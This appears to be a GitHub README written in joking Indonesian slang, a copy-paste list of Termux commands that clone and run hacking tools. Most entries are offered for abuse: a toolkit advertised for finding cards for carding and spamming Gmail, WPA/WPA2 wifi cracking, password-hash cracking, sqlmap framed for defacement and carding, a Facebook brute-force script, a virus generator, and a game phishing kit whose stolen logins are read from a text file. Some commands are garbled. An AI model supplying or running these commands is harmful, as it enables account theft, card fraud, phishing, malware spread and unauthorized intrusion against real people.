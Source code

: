 
# @tuanmuda1
Welcome to you all (Penikmat copy/paste):v

Hallo gaeess :) apa kabar? Buruk? Alhamdulillah :v (Syukurin ea tod)
  Sebelum memulai kegiatan Copy/Paste command:v, mari bersama" Berdoa menurut
agama dan kepercayaan masing"..... Ok cukup:)
Biar apa bang? Biar ga di tabok ama yg punya tutorial :D

  Ok sob, kaya nya jari gw dh cape ngetik :v
Sekarang kita siapin bahan" yang di perlukan!!
1.Kopi (Non ABC ea) Biar ga kelihatan misquen:v
2.Rokok (yg di isep cuk, bukan di emut:)
3.L*nT3 (Biar sinyal lancar gaesss:)

Langsung ke command nya !
========================================================
++++++++++Kumpulan Command Termux++++++++++



*Puluhan Ratusan Kumpulan Pilihan Tools dari Termux dan Kali Linux
$pkg install git
$git clone https://github.com/Mrcakil/mrcakil
$cd mrcakil
$chmod +x tools
$./tools


*Bot Auto Reaction Facebook
$git clone https://github.com/AMVengeance/FB-React.git 
$chmod +x FB-React -R cd FB-React ./start

*NIK dan KK Gratis
$pkg install php git 
$git clone https://github.com/IndonesianSecurity/kkktp
$cd kkktp
$php kkktp.php


*Tools B4J1N94N
Fitur :
-Nyari CC buat carding
-Spam akun gmail
-Whois lookup
Dan ratusan tools lainnya


$git clone https://github.com/DarknessCyberTeam/B4J1N64Nv5
$cd B4J1N64Nv5
$sh B4J1N64N.sh

*Crack hash password
$git clone https://github.com/FajriHidayat088/FHX-Hash-Killer/
$cd FHX-Hash-Killer
$python2 FHXHashKiller.py

*Wifilite (Crack pass wifi : wpa/wpa2)
$git clone https://github.com/derv82/wifite
$cd wifite
$chmod 777 wifite.py
$python2 wifite.py


*Redhawk
Fitur Redhawk :
-Server detection
-Cloudflare detector
-robots scanner
-Whois lookup
-GEO-IP Scan
-NMAP Port Scan
-DNS Lookup
-SubNet Calculator
-Subdomain Finder
-Reverse IP Scanner
-CMS detection For Sites On the same server.
-Parameter Finder
-Error based SQLi Detector
Dan lain - lain.

$git clone https://github.com/Tuhinshubhra/RED_HAWK
$cd RED_HAWK
$chmod +x rhawk.php
$php rhawk.php


*Install SQLMAP
Tools ini berguna sekali untuk kegiatan mengetes keamanan website, deface, carding dan semacamnya
$git clone https://github.com/sqlmapproject/sqlmap
$cd sqlmap
$python2 sqlmap.py
$python2 sqlmap.py -u website.com --dbs
(Mengetahui semua parameter Sqlmap)👇
$python2 sqlmap.py -hh
(Mengetahui semua parameter Sqlmap)👇
$python2 sqlmap.py -hh
(Melacak IP)👇
$git clone https://github.com/maldevel/IPGeolocation 
$cd IPGeolocation
$chmod +x ipgeolocation.py
$pip install -r requirements.txt 
$python ipgeolocation.py -m
$python ipgeolocation.py -t IPnya


*Hack Akun Facebook
$pkg install python2-dev
$apt install wget
$dip2 install mechanize
$cd/sterage/emulated/0
$python2 fbbrute.py
$storage/emulated/0/password.txt


*Membuat Virus
$git clone https://github.com/viruz09/CreaterVirus cd CreaterVirus python2 creater.py
(Cara copy virus)
$cp agents.apk /lokasi/folder


*Hack Akun Game Mobile Legends
$git clone https://github.com/Senitopeng/PhisingGame.git
$cd PhisingGame
$python2 phising.py
(Lihat result)👇
$cd PhisingGame
$cat buku.txt


Tutorial berikutnya? Next time again ea tod :)







